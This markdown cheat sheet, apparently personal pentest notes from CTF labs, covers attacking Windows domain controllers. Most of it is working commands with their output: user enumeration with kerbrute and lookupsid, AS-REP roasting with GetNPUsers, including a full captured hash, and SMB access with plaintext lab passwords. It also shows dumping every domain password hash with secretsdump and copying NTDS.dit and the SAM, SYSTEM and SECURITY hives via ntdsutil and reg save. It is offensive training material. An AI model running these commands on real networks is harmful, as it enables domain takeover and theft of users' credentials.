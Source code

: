 # Domain Controllers

## Basics

* Find the NETBIOS Domain Name

```
nbtscan -v 10.10.8.1-254
```

* Should also be in nmap output

```
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   DNS_Tree_Name: spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-08-20T18:00:52+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
```

* Add to `/etc/hosts`

## Kerbrute

* Find valid users
* Example Syntax

```
kerbrute -users userlist.txt -domain spookysec.local -dc-ip 10.10.55.114
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Valid user => james
[*] Valid user => svc-admin [NOT PREAUTH]
[*] Valid user => James
[*] Valid user => robin
[*] Blocked/Disabled user => guest
[*] Valid user => darkstar
```

## Impacket

* Location:

```
/usr/share/doc/python3-impacket/examples/
```

* If we have IPC$ access without authentication we are able to list the domain users as anonymous

```
python3 lookupsid.py anonymous@10.10.10.10 | tee users.txt
```

* Isolate the users with `SidTypeUser`

```
grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users.txt
```

* Now, let’s use `GetNPUsers.py` to find users without Kerberos pre-authentication:

```
python3 GetNPUsers.py vulnnet-rst.local/ -no-pass -userfile usernames.txt
```

* Should retrive a hash if the command is sucessful

```
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:692e76f70a8772c46ed94e73130460c8$713b0693498fdaff68642d78e713ca965e5007d5d864ca727289930783fe28f00bf79fef8126c4722d09cafc72ec60e940d31297591f67ce049030cb531ddd9c83cd37796fbf414b830a7c90fe26d2c45d6f2b624cd4413c58e3dbb77519dd69906248f8db27b1974b880a826003e562e25d9de9e4cb7cfa85c1de954761053b7d51a455530001348b46909f91f4e80bae7374071339f0920bb3e2ad95169d20f05d0cd586882facb63c058072dacb7ec8ddbcd9297331e1f6fb6d844ea7967659bee38fde4431af9f9608e9adcb38cb6e20e72bcf61c524f480b5ea2530e16dbeed2272855a61a05c03e84653aa1a3bbbd5ece06633
```

* Crack the hash with `john`

### SMB Samba authenticated access

```
smbclient -U vulnnet-rst.local/t-skid //10.10.100.15/NETLOGON
smbmap -u svc-admin -p management2005 -H 10.10.248.93
smbclient -U spookysec.local/svc-admin \\\\10.10.248.93\\backup 
```

* Cat out files with `smb`

```
Enter VULNNET-RST.LOCAL\t-skid's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 17 00:15:49 2021
  ..                                  D        0  Wed Mar 17 00:15:49 2021
  ResetPassword.vbs                   A     2821  Wed Mar 17 00:18:14 2021

        8540159 blocks of size 4096. 4318542 blocks available
smb: \> get ResetPassword.vbs -
```



### Dump hashes

* Use `secretsdump.py` with impacket
* This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer.
* Creds used need to be domain admin for this to work

```
python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.100.15
python3 secretsdump.py spookysec.local/backup:backup2517860@10.10.248.93
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
```

![spooky](https://user-images.githubusercontent.com/75596877/130284812-511a8141-5917-4954-8c29-e623c1edce36.png)

#### Alt Method

* Open `cmd.exe`
* Run `ntdsutil` from the command prompt, enter these commands

```
snapshot
activate instance NTDS
create
```

* Takes a snapshot of the DC
* Will show you the UUID of the newly created snapshot.
* ntdsutil is using Volume Shadow Copy for the snapshot creation, but also ensures the database consistency. Use the UUID for the following command:

```
mount <UUID>
```

* The output will show the path where the snapshot was mounted. Start another cmd.exe as Administrator and copy NTDS.dit (located in `Windows\NTDS\NTDS.dit` by default).
* Create a copy of the `SYSTEM` registry hive:

```
reg.exe save HKLM\SYSTEM <path_where_you_want_to_save_it>
```

* Go back to the `cmd.exe` window with `ntdsutil` running, and `unmount` (and optionally `delete`) the snapshot and exit:

```
unmount <UUID>
delete <UUID>
quit
quit
```

* Using the two saved files (`NTDS.dit` and `SYSTEM` registry hive) you can use the same `secretsdump.py` script to extract password hashes offline (doesn’t need to be done on the domain controller):

```
secretsdump.py -system <path_to_system_hive> -ntds <path_to_ntds.dit> LOCAL
```

#### Secretsdump Local

* Exfil the registry hives

```
reg.exe save hklm\security C:\temp\security.save
reg.exe save hklm\system C:\temp\system.save
reg.exe save hklm\SAM C:\temp\sam.save
```

* Extract hashes from exfiled SECURITY SAM and SYSTEM

```
python3 secretsdump.py -security security.save -system system.save -sam sam.save LOCAL
```

#### Another Cheatsheet

* https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

### Invoke-ShareFinder

```
Invoke-ShareFinder  -Verbose
VERBOSE: [*] Running Invoke-ShareFinder with delay of 0
VERBOSE: [*] Querying domain rastalabs.local for hosts
VERBOSE: Get-DomainSearcher search string: LDAP://dc01.rastalabs.local/DC=rastalabs,DC=local
VERBOSE: Get-NetComputer filter : '(&(sAMAccountType=805306369)(dnshostname=*))'
VERBOSE: [*] Total number of hosts: 12
VERBOSE: Waiting for scanning threads to finish...
VERBOSE: All threads completed!
VERBOSE: [*] Total number of active hosts: 12
VERBOSE: [*] Enumerating server dc01.rastalabs.local (1 of 12)
\\dc01.rastalabs.local\ADMIN$   - Remote Admin
\\dc01.rastalabs.local\C$       - Default share
\\dc01.rastalabs.local\IPC$     - Remote IPC
\\dc01.rastalabs.local\NETLOGON         - Logon server share 
--snip--
```
